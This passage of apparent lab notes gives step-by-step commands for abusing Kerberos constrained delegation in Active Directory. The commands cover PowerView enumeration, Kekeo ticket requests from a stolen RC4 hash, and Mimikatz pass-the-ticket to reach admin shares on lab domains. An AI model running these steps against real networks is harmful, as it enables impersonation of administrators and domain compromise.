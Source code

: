 Using ActiveDirectory module:

~~~
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
~~~

*Using powerview, we can find target computers like so:*

~~~
Get-NetComputer ws02 | select name, msds-allowedtodelegateto, useraccountcontrol | fl
~~~

~~~
Get-NetComputer ws02 | Select-Object -ExpandProperty msds-allowedtodelegateto | fl
~~~

**Let's now impersonate administrator@offense.local and try again:**

~~~
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name

ls \\dc01.offense.local\c$
~~~

Refrence:https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation

#### Kekeo

Abusing with Kekeo

- Either plaintext password or NTLM hash/AES keys is required. We already have access to websvc’s hash from dcorp-adminsrv

Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram):

~~~
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
~~~

Using s4u from Kekeo, we request a TGS (steps 4 & 5):

~~~
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
~~~

Using mimikatz, inject the ticket:

~~~
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
~~~
